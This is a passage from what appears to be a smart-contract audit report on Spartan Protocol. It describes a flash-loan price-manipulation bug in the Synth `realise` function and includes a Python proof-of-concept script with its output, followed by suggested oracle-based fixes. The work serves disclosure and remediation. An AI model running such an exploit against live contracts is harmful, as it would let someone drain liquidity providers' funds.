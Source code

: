 Synth `realise` function calculates `baseValueLP` and `baseValueSynth` base on AMM spot price which is vulnerable to flash loan attack. `Synth`'s lp is subject to `realise` whenever the AMM ratio is different than Synth's debt ratio.

The attack does not necessarily require a flash loan. A big whale of the lp token holders could keep calling `realise` by shifting token ratio of AMM pool back and forth.

The vulnerability is located at `Synth.sol` [L187-L199](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Synth.sol#L187-L199). Where the formula [here](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Utils.sol#L114-L126) is dangerous.

Here's a script for conducting flashloan attack:
```python
flashloan_amount = init_amount
user = w3.eth.accounts[0]
marked_token.functions.transfer(user, flashloan_amount).transact()
marked_token.functions.transfer(token_pool.address, flashloan_amount).transact({'from': user})
token_pool.functions.addForMember(user).transact({'from': user})
received_lp = token_pool.functions.balanceOf(user).call()
synth_balance_before_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
token_synth.functions.realise(token_pool.address).transact()
token_pool.functions.transfer(token_pool.address, received_lp).transact({'from': user})
token_pool.functions.removeForMember(user).transact({'from': user})
token_synth.functions.realise(token_pool.address).transact()
synth_balance_after_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
print('synth_lp_balance_after_realise', synth_balance_after_realise)
print('synth_lp_balance_before_realise', synth_balance_before_realise)

```
Output:
```
synth_balance_after_realise 1317859964829313908162
synth_balance_before_realise 2063953488372093023256
```

Calculating Lp token's value base on AMM protocol is known to be dangerous.
There are a few steps that might solve the issue:
1. calculate token's price from a reliable source.  Implement a TWAP oracle or uses chainlink oracle.
2. calculate lp token value based on anti-flashloan formula.  Alpha finance's formula is a good reference: https://blog.alphafinance.io/fair-lp-token-pricing

**[verifyfirst (Spartan) confirmed and disagreed with severity](https://github.com/code-423n4/2021-07-spartan-findings/issues/40#issuecomment-883856664):**
 > A proposal has been suggested to limit the use of realise() for a DAO proposal. This will allow only liquidity providers to choose the outcome of a function that directly affects them.
>

## [[H-06] `SynthVault` rewards can be gamed](https://github.com/code-423n4/2021-07-spartan-findings/issues/166)
_Submitted by cmichel_

The `SynthVault._deposit` function adds `weight` for the user that depends on the spot value of the deposit synth amount in `BASE`.
